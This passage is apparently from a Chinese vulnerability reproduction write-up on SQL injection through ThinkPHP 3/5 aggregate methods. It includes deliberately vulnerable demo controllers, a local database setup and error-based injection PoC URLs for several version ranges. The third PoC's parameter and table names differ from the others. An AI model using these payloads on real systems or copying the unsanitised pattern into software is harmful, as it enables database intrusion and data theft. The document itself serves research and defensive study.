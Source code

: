 与thinkphp3流程类似，具体参考[【CVE-2018-18530】ThinkPHP5漏洞分析之SQL注入(六)](https://mochazz.github.io/2019/04/02/ThinkPHP5漏洞分析之SQL注入6/#漏洞概要)

#### - 漏洞复现

- demo构造

```php
//ThinkPHP 3
public function cntSql()
{
        $amount = I('get.amount');
        $num = M('user')->count($amount);
        dump($num);
}
//ThinkPHP 5
public function maxSql()
{
        $amount = request()->get('amount');
        $num = db('user')->max($amount);
        dump($num);
}

```

1. count方法用于统计数量，max方法用于获取最大值。需要先制定统计哪张数据表、查询条件等然后再进行调用。
2. 所有的各类聚合/统计查询方法内部调用的都是/thinkphp/library/think/db/Query.php的aggregate方法，该方法的第一个参数$aggregate用于指定上层调用该方法的聚合查询方法。

- PoC

1. ThinkPHP 3

```
http://x.x.x.x/index.php/Home/Index/cntSql?amount=id),updatexml(1,concat(1,user(),1),1)from+user%23
```

  2. ThinkPHP 5.0.0-5.0.21和5.1.1-5.1.10

```
http://x.x.x.x/public/index.php/index/index/index?amount=id),updatexml(1,concat(1,user(),1),1)from+user%23
```

  3. ThinkPHP 5.1.11-5.1.25

```
http://x.x.x.x/public/index/index/index/?amout=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```

- 数据库配置

自建数据库，建立表名为user的数据表，字段设置id、username、password三种。同时在默认应用配置下设置数据库配置信息Application\Common\Conf\config.php。后续其他sql注入复现需要的设置类似，不再做重复说明。

```php
   'DB_TYPE' => 'mysql',
   'DB_HOST' => '127.0.0.1',
   'DB_NAME' => '',//数据库名
   'DB_USER' => 'root',
   'DB_PWD' => 'root',
   'DB_PORT' => '3306',
   'DB_FIELDS_CACHE' => true,
   'SHOW_PAGE_TRACE' => true
```
